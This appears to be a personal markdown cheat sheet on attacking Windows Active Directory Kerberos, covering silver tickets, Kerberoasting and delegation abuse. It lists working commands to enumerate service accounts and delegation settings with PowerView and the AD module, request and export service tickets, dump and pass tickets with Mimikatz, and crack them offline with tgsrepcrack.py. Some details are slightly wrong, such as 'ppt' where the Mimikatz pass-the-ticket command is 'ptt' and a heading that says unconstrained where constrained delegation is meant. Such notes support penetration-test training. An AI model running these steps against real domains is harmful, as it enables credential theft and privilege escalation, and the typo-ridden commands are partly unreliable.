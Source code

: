 > https://docs.microsoft.com/en-us/windows/desktop/secauthn/authentication-portal

> https://docs.microsoft.com/en-us/windows/desktop/secauthn/microsoft-kerberos

![Kerberos](https://lh5.googleusercontent.com/UeGIGlYK5NvC4FIRPCzOgdeL_UeDjrvszzw2ZbJgitgE_Mdbi1Z6HZSG9VHfBJSDwP2W4ifN9JkpSa9jx-BA=w1360-h611-rw)

> https://drive.google.com/open?id=1eaQki6QuqfbHqMfkaKH66z2OAnI0lV0H

# Silver Tickets

* Password hashes of service accounts could be used to create
* Kerberos session ticket (TGS) has a sever portion which is encrypted with the password hash of the service account.
* Can request a ticket and do offline brute forcing.

![Kerberos Silver Ticket](https://lh5.googleusercontent.com/OKN30PLvn-kXiOXCz4fHfd7mHn_SUCdTnJBRB_NRYpWj9B57kc8cbyn1Ga-pLlWQ38jNvRs7Cz-gpQr0iFpg=w1360-h611-rw)
> https://drive.google.com/open?id=1iSXKVgkO_U61MCf0ItaZgyMt-406pWdD

* KDC does not handle authorization
* Can request TGS for any service
* TGS is encrypted using target-service NTLM hash
* .:. it is possible to brute-force the TGS to get target-service account credentials

## Find Service Accounts

GetUserSPNs
> https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

PowerView (SPN = Service Principal Name)
```
Get-Netuser -SPN
```

ActiveDirectory Module
```
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
## Request SPN Ticket

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<server-name>"
```

PowerView
```
Request-SPNTicket
```

## Save Tieket

List all tickets in cache (check if granted)
```
klist
```

Mimikatz
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
## Bruteforce

```
python.exe .\tgsrepcrack.py .\password.txt '<ticket>'
```

or use John


# Kerberos Delegation

* Allows reusing the end-user credentials to access resources hosted on a different server.
* Used when `Kerberos Double Hop` is required.
* Impersonating the incoming/authentication user is necessary to work.
* Types:
  * Unconstrained (only Windows Server 2003 <) - Allow authentication to any service in the domain
  * Constrained

## Unconstrained Kerberos Delegation

![Kerberos Delegation](https://lh5.googleusercontent.com/MgazYuWpQRvg25S48nMh5iPbeX76N-GF078pRWy7jBo4MqO3k4rPaBHdZXDL-GLEqv2GDfrsMlp6gNahYYLU=w1360-h611-rw)
> https://drive.google.com/open?id=1VZvQcin4RN7PkByplk-LhI1P3mrCoJXY

1. User provide credentials to DC
2. DC returns TGT
3. User request TGS for web service
4. DC provides TGS (TGS contains user's TGT)
5. User sends TGT and TGS to web Server
6. Web server service account use user's TGT to request a TGS got database server from DC
 * Web server service account can decrypt TGS and extract the user's TGT
 * This is because TGS is encryoted with web server service account's NTLM hash
7. Web server service account connects to database impersonating the user

### Identifying Nodes with Unconstrained Delegation Enabled

```
Get-NetComputer -UnConstrained
```

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

### Attack Pattern

* Compromise the server that use unconstrained delegation
* Wait for a high privileged connect
* Once connected, export all the tickets including TGT for that User

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Reuse tickets with
```
Invoke-Mimikatz -Command '"kerberos::ppt C:\tickets\admin.kirbi"'
```

## Constrained Kerberos Delegation

* Only provide access to specified services on a specifiv computer
* Service account must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute
* Service account can asccess all services specified in msDS-AllowedToDelegateTo attribute

### Identifying Users with Unconstrained Delegation Enabled

```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

```
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
### Attack Patterns

* Protocol Transition used in SSO
* Delegation occurs not only for the specific service but for any service running under the same account. No validation for the SPN specified.

> https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/

